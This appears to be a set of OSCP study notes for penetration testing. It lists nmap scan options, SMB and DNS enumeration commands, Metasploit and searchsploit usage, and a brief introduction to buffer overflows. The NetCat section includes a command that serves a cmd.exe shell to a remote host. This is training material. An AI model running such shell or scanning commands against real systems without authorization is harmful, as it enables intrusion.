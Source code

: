 **OSCP Notes**

*NetDiscover*

find out the ip of the machine in the network

    netdiscover -i  eth1

**Find ports**

*SSH fast UDP*

    nmap -Pn --top-ports 1000 -sU --stats-every 3m --max-retries 1 -T3 -oN /root/kioptrix.txt 192.168.156.102

    -sU                         UDP Scan

*SSH intensive* 

    nmap -Pn -sS --stats-every 3m --max-retries 1 --max-scan-delay 20 --defeat-rst-ratelimit -T4 -p1-65535 -oN /root/desktop/kioptrix.txt 192.168.156.102

    -Pn                         Do not ping the host
    -sS                         Stealth Scan
    --stats-every 3m            Every 3 Min information should come back
    --max-retries 1             Only try once
    --max-scan-delay 20         nmap should wait a specific time - avoid rait limit
    --defeat-rst-ratelimit      don't send ack just send rst to much ack can trigger rait limit - for filtered ports
    -T4                         Intesitiy of 4
    -p1-65535                   scan all ports
    -oN <where to save it>      save the result to a specific file
    <target>                    ip e.g.

*Specific Ports Scan*

    sudo nmap -Pn -nvv -p 22,80,8080 --version intensity 9 -A -oN /home/kali/Desktop/kioptrix.txt

    -nvv 
    -Pn
    -p 22,80,111,139
    --version intensity 9 
    -A
    -oN /root/kioptrix1_detailed.txt
    <host>

**Enumeration**

All kind of enumeration topics

**Search for Directories**

*dirbuster - with UI*

Good to download a wordlist from github
take a big one and remove "manual"

*analysis for vulnerabilities*

    nikto -h <ip> + port :80 or :443 

*SMB Enumeration*

    enum4linux -> 
        SMB Client 
        RPC Client
        NAT and MB Lookup

Has config bug
    locate smb.conf
    vim smb.conf

    under global add:
    client use spnego = no
    client ntlmv2 auth = no

*enum4linux <ip>*

find out SAMBA Version

    msfconsole
    search smb

search for an auxiliary scanner for smb with meatsploit

    use auxiliary/scanner/smb/smb_version
    put info - includes show options
    set rhost <ip>
    exploit
    --> gives you the version

    searchsploit samba 2.2
    see exploits compare them to exploit-db

    nbtscan <ip> - gives you basic info like NetBIOS Name

    smbclient -L <ip>

SAMBA is a good source for exploits

**DNS Enumeration**

*zonetransfer*

DNS Server

    host -t ns zonetransfer.me

Mail Server

    host -t mx zonetransfer.me

Host Information

    host zonetransfer.me

Zonetransfer information

    host -l zonetransfer.me <name server>

gives you unique dns/ip addresses

*dnsrecon*

    dnsrecon -d zonetransfer.me -t axfr
    axfr - for Zonetransfer

*dnsenum*

    dnsenum zonetransfer.me

its more clean and faster as the other ones

**other types**

    -FTP
    -SNMP
    -SMTP

**NetCat**

try connect to an open port
    
    nc -nv <ip> <port>

listening shell

    nc -nvlp <port>

connect

    nc -nv <ip> <port> -e cmd.exe
    -e execute

**Buffer Overflow**

**Basic**

*Overview*

    Kernel      Top         0xffff
    Stack                               is going down
    Heap                                is going up
    Data
    Text        Button      0000

*Stack*

    ESP (Extended Stack Pointer)                            Top                     
    Buffer Space                                                                
    EBP (Extended Base Pointer)                             Base (B for Base)     
    EIP (Extended instrctuon Pointer) / Return Address                              

Buffer Space goes down. If there an input validation is wrong the EBP and EIP can be reached
Fill the Buffer Space up with x41 (A) x42 (B)

**Creation**

*Fuzzing*

A programm that is not properly sanitized will crash if it receives to many bytes.

To Download

    vulnserver
    Immunity Debugger





